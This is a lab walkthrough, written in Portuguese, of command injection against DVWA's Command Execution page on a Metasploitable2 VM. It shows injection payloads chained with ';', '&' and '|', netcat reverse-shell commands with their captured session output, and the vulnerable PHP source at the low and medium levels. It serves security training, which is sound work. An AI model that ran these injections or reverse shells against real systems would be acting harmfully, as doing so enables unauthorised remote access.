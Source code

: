 # Command Injection

Esse exercício é realizado na VM do metasploit2. 
- Após iniciar a VM, abrir on endereço IP da VM em um browser
- Selecionar o botão **Command Execution**

![command execution](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_1.png)

## DVWA com Segurança baixa

Para executar o camando ping basta entra o IP desejado e clicar em *submit*

![ping](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_2.png)

Em seguida obtermos o resultado:

![ping resultado](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_3.png)

**A questão:** É possivel injetar comando 'alienígêna' no prompt? 
- Usando o separado ';' injetamos o comando 'ls -la'

  `192.168.1.10; ls -la`

  ![injeção de ls -la](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_4.png)

- Obtemos o seguinte resultado:

  ![injeção de ls -la resultado](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_5.png)

Assim, é possível injetar umcomando malicioso no prompt.
- Para obter um sessão netcat com o alvo, iniciamos o netcat em modo listener em nossa máquina.

  `nc -lvp 12345` - onde 12345 é a porta que seleciomos para a escuta.
  ```
  └─$ nc -lvp 12345
  listening on [any] 12345 ...
  ```

- No prompt da página web, injetamos o comando netcat com a mesma porta do listener.

  `192.168.1.10; nc -e /bin/bash 192.168.1.10 12345`

  ![injeção netcat](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/74d17509f3dfd75aa6f5ac594284f5f19b786f24/7%20-%20websites/ci_6.png)

- Em nosso terminal obtemos uma conexão com o VM através do netcat.
  ```
  connect to [192.168.1.10] from (UNKNOWN) [192.168.1.33] 49007
  
  whoami
  www-data
  
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  
  groups
  www-data
  
  ls -la
  total 20
  drwxr-xr-x  4 www-data www-data 4096 May 20  2012 .
  drwxr-xr-x 11 www-data www-data 4096 May 20  2012 ..
  drwxr-xr-x  2 www-data www-data 4096 May 20  2012 help
  -rw-r--r--  1 www-data www-data 1509 Mar 16  2010 index.php
  drwxr-xr-x  2 www-data www-data 4096 May 20  2012 source
  ```
Essa vunerabilidade ocorre devido a falha de programação da página web, que aceita operadores que controlam como e quando os comandos são executados.

## DVWA com Segurança média

Tentaremos novamente injetar um comando malicioso no prompt da página, mas desta vez com a segurança em nível médio.

 - Repetindo a injeção de comando com operador **;**: `192,168.1.10; ls -la`, não obtemos resposta, indicando que esse operador é inútil para nossos objetivos.
 - Contudo, existem outros operadores para controle de fluxo de comandos:
   - `comando1 ; comando2` - comando2 será executado **sempre**, mesmo que comando1 falhe.
   - `comando1 && comando2` - comando2 só será executado se comando1 **retornar sucesso**
   - `comando &` -  comando é iniciado **em background**, liberando o terminal para outras tarefas.
   - `comando1 | comando2` - Conecta comandos: a saída de comando1 vira a entrada de comando2.
  - O primeiro opetrador (;) foi rejeitado, vamos para o seguinte:
  - Operador &&: `192.168.1.10 && ls -la`
    - Também não funcionou
  - Operador &: `192.168.1.10 & ls -la`
    - A injeção funcionou.
    
      ![resultado injeção](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/3ce8cccf9ccfd3fdd0cd25ac3dfa519a313cec41/7%20-%20websites/ci_7.png)
         
  - Operado |: `192,168.1.10 | ls -la`
    - De forma similar ao operado &, também funcionou.

De forma análoga a injeção no DVWA de baixa segurança, podemos injetar um comando de netcat.
- `192.168.1.10 & nc -e /bin/bash 192.168.1.10 12345`, ou
- `192.168.1.10 | nc -e /bin/bash 192.168.1.10 12345`

Obtendo mais uma vez conexão via netcat.
```
└─$ nc -lvp 12345
listening on [any] 12345 ...
192.168.1.33: inverse host lookup failed: Unknown host
connect to [192.168.1.10] from (UNKNOWN) [192.168.1.33] 38607

whoami
www-data
```
Apesar de filtar os operadores ";" e "&&", a página ainda deixou algums operadores de fora, sendo possível a injeção de comando.
```
 <?php

if( isset( $_POST[ 'submit'] ) ) {

    $target = $_REQUEST[ 'ip' ];

    // Remove any of the charactars in the array (blacklist).
    $substitutions = array(
        '&&' => '',
        ';' => '',
    );

    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    
    // Determine OS and execute the ping command.
    if (stristr(php_uname('s'), 'Windows NT')) { 
    
        $cmd = shell_exec( 'ping  ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    } else { 
    
        $cmd = shell_exec( 'ping  -c 3 ' . $target );
        echo '<pre>'.$cmd.'</pre>';
        
    }
}

?>
```
## DVWA com Segurança alta

O DVWA Command Execution é **projetado para bloquear tentativas de injeção de comandos** no **nível alto**.

O nível High foi feito para simular um ambiente mais seguro, aplica validação rigorosa de entrada, usando funções como escapeshellcmd() ou preg_match() para filtrar comandos maliciosos. Isso impede injeções direta. Ele  mas ainda pode ser explorado com técnicas avançadas, especialmente se combinado com outras vulnerabilidades (como file upload ou XSS).

Conclusão: a solução é robusta e impede a passagem de comandos maliciosos no prompt. É necessário explorar outras vunerabilidades, utilizações de ferramentas como o metasploit, para ter acesso a máquina.

